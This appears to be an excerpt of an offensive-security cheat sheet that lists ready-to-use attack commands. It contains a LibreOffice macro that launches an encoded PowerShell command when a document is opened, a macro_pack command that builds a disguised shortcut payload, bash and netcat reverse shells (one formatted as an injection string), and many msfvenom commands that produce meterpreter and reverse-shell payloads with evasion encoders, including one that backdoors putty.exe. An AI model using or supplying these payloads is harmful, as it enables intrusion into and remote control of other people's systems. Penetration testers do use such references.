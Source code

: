 ### Create malicious Libre Office Documents

```c
Sub Main

    Shell("cmd.exe /c powershell -e JAjA<--- CUT FOR BREVITY --->AA==")
    
End Sub
```

Now `assign` the `macro` to an `event`.

*Tools > Customize > Events > Open Document*

## marco_pack

```c
PS C:\macro_pack_pro> echo .\<FILE>.bin | marco_pack.exe -t SHELLCODE -G .\<FILE>.pdf.lnk --icon='C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13' --hta-macro --bypass
```

## Markdown Reverse Shell

```c
--';bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1;'--
```

## mkfifo Reverse Shell

```c
$ mkfifo /tmp/shell; nc <LHOST> <LPORT> 0</tmp/shell | /bin/sh >/tmp/shell 2>&1; rm /tmp/shell
```

## msfvenom

### Basic Commands

```c
$ msfvenom -l payloads       // list payloads
$ msfvenom --list formats    // list formats for payloads
```

### Common Payloads

```c
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > <FILE>.elf
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f WAR > <FILE>.war
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -e php/base64 -f raw
$ msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
$ msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o "r'<FILE>.exe"
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f aspx -o <FILE>.aspx
$ msfvenom -p windows/x64/exec CMD='\\<LHOST>\PATH\TO\SHARE\nc.exe <LHOST> <LPORT> -e cmd.exe' -f dll > <FILE>.dll
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f aspx -o <FILE>.aspx
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -b '\x00' -f exe    # -b is bad bytes
$ msfvenom -p windows/meterpreter/reverse_http LHOST=<LHOST> LPORT=<LPORT> HttpUserAgent=<HEADER> -f exe -o <FILE>.exe
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f aspx -o <FILE>.aspx
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o <FILE>.exe
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o <FILE>.exe -e x64/zutto_dekiru -i 10
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o <FILE>.exe -e x64/zutto_dekiru -i 10 -x ./putty.exe -k
```